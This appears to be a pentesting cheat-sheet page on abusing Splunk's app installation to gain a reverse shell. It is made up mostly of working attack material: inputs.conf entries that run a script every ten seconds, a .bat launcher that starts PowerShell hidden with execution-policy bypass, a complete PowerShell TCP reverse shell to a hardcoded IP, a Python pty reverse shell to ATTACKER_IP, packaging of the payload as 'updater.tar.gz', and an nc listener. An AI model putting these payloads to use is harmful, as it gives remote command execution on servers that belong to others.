 #### Abusing Built In Functionality for Rev Shell

[example repo](https://github.com/0xjpuff/reverse_shell_splunk)
splunk directory tree
```shell-session
splunk_shell/
├── bin
└── default
```
The `bin` directory will contain any scripts that we intend to run (in this case, a PowerShell reverse shell), and the default directory will have our `inputs.conf` file. Our reverse shell will be a PowerShell one-liner.

inputs.conf data [linux]
```shell-session
[script://./bin/rev.py]
disabled = 0  
interval = 10  
sourcetype = shell 
```
```
```
inputs.conf data [windows]
```
[script://.\bin\run.bat]
disabled = 0
sourcetype = shell
interval = 10
```
The [inputs.conf](https://docs.splunk.com/Documentation/Splunk/latest/Admin/Inputsconf) file tells Splunk which script to run and any other conditions. Here we set the app as enabled and tell Splunk to run the script every 10 seconds. The interval is always in seconds, and the input (script) will only run if this setting is present.


We need the .bat file, which will run when the application is deployed and execute the PowerShell one-liner. [windows]
```shell-session
@ECHO OFF
PowerShell.exe -exec bypass -w hidden -Command "& '%~dpn0.ps1'"
Exit
```


[windows]script
```powershell-session
#A simple and small reverse shell. Options and help removed to save space. 
#Uncomment and change the hardcoded IP address and port number in the below line. Remove all help comments as well.
$client = New-Object System.Net.Sockets.TCPClient('10.10.14.15',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

[linux] script
```python
import sys,socket,os,pty

ip="ATTACKER_IP"
port="443"
s=socket.socket()
s.connect((ip,int(port)))
[os.dup2(s.fileno(),fd) for fd in (0,1,2)]
pty.spawn('/bin/bash')
```

package everything together
```shell-session
tar -cvzf updater.tar.gz splunk_shell/
```

upload file to splunk using "`Install app from file`"

open listener
```shell-session
sudo nc -lnvp 443
```
